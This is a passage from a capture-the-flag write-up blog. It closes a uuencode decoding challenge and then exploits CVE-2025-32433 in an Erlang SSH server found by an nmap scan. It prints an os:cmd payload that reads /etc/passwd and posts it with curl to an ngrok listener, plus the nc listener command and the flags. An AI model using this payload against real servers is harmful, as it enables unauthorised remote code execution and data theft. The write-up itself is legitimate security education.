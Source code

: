 {{< figure src="/oposec_2025/matry6.png" class="post-image" >}}

This time it was `uuencoded`, so I threw it into an online decoder—and that finally revealed the flag.

{{< figure src="/oposec_2025/matry7.png" class="post-image" >}}

```bash
flag{Babushka!}
```

### Foreplay

{{< figure src="/oposec_2025/foreplay.png" class="post-image" >}}

I ran an nmap against the target range and found port 2222 open:

```bash
$ nmap -Pn -p1024-6667 madlabs.pw -v

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
```

I then connected with netcat to see what it would do. After a while, I got this back:

```bash
$ nc 20.4.227.104 2222
asd
SSH-2.0-Erlang/5.1.4.7
Protocol mismatch.
```

I googled Erlang with the specific version and found [CVE-2025-32433](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce) that contained a simple PoC to abuse this CVE.

Tweaking the payload showed I could call `os:cmd` — so instead of `file:write` (original PoC) I tried to use `os:cmd` while listening with `nc -lvnp 8281` + ngrok:

```bash
os:cmd("cat /etc/passwd | curl -X POST --data-binary @- http://ngrok:8281").
```

{{< figure src="/oposec_2025/foreplay2.png" class="post-image" >}}

I validated that `os:cmd` worked, so I went hunting for the flag in `/root`.

{{< figure src="/oposec_2025/foreplay3.png" class="post-image" >}}

{{< figure src="/oposec_2025/foreplay4.png" class="post-image" >}}

```bash
flag{OhBoyErlang}
```

## Web

### The Crew
